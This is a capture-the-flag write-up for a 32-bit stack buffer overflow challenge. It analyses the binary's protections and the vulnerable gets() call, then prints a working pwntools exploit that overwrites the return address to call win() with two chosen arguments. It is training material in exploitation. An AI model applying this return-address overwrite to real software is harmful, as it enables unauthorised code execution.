 # BufferOverflow-2

Challenge Description:

> Control the return address and arguments and this time you'll need to control the arguments to the function you return to!.

> Hint1 : Try using GDB to print out the stack once you write to it.

## Analyzing code

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Similar to the previous challenges,gets() is called and the win function requires 2 arguements to print out the flag.
Arg1 = `0xCAFEF00D`
Arg2 = `0xF00DF00D`

In 32 bit architecture,arguements are passed using the stack itself unlike in 64 bit which uses registers. So when we overflow using gets,the stack should like shown below....

    Padding(Some no of bytes found using gdb/others)						Lower address
    Win_function_address
    Win_function_return_address(Does not matter in this case)
    Arg1(0xCAFEF00D)
    Arg2(0xF00DF00D)												Higher address

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

## Finding offset and creating exploit

The offset found was 112 bytes and the script written is shown below.

```python
from pwn import *

elf = ELF("./vuln",checksec=False)
p = elf.process()
#p = remote("saturn.picoctf.net", 50938)

win_function = 0x08049296

padding = b'A'*112

payload = padding
payload += p32(win_function)
payload += p32(0x41414141)	# Where will win return
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```

Running the above script gives us the flag below

![output of flag when run on the server](flag_output.PNG)
